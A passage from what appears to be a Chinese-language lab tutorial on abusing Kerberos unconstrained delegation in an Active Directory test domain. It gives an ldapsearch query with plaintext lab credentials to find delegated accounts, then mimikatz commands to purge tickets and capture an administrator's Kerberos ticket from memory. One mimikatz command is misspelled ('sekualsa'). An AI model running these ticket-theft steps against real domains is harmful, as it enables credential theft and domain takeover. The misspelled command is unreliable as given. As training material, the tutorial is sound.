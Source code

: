 **查询非约束委派的用户：**

`ldapsearch -LLL -x -H ldap://172.16.147.130:389 -D "win7user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`

#### [](#222-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)2.2.2 非约束委派的利用

##### [](#2221-%E7%AE%A1%E7%90%86%E5%91%98%E6%A8%A1%E6%8B%9F%E8%AE%BF%E9%97%AE)2.2.2.1 管理员模拟访问

信息

实验前建议清除内存中的票据，mimikatz 下：`kerberos::purge`

模拟管理员调用非约束性委派机的 smb 服务：`net use \\win7\c$`

回到非约束委派机，查看票据(**部分截图**)：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>privilege::debug<br>sekualsa::tickets<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print](assets/1699409170-5d090273144a1a421b1d5c25f4737314.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print")
